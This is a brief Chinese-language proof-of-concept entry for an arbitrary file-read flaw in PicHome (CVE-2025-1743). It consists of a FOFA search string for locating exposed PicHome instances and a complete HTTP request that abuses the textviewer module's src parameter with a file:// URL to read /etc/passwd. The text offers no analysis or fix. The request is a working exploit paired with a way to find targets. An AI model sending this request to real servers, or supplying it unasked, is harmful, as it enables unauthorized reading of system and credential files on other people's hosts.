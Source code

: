 Pichome index存在任意文件读取（CVE-2025-1743）

fofa

title="PicHome"

poc

GET /index.php?mod=textviewer&src=file:///etc/passwd HTTP/1.1
Host:
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
